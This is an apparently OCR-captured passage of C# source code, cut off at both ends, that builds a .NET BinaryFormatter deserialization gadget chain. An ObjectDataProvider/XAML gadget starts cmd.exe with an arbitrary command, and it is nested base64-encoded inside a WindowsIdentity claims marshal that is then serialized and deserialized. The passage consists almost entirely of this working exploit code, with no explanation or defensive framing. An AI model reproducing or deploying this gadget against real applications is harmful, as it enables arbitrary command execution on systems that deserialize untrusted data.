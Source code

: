 ```plain
            BinaryFormatter bf = new BinaryFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                bf.Serialize(memory, textFormattingRunPropertiesMarshal);
                string b64payload = Convert.ToBase64String(memory.ToArray());
                WindowsIdentityIdentityMarshal windowsIdentityIdentityMarshal = new WindowsIdentityIdentityMarshal(b64payload);

                memory.Position = 0;
                b.Serialize(memory, windowsIdentityIdentityMarshal);
                memory.Position = 0;
                b.Deserialize(memory);

            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class WindowsIdentityIdentityMarshal : ISerializable
    {
        public WindowsIdentityIdentityMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsIdentity));
            info.AddValue("System.Security.ClaimsIdentity.actor", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.bootstrapContext", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.claims", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
```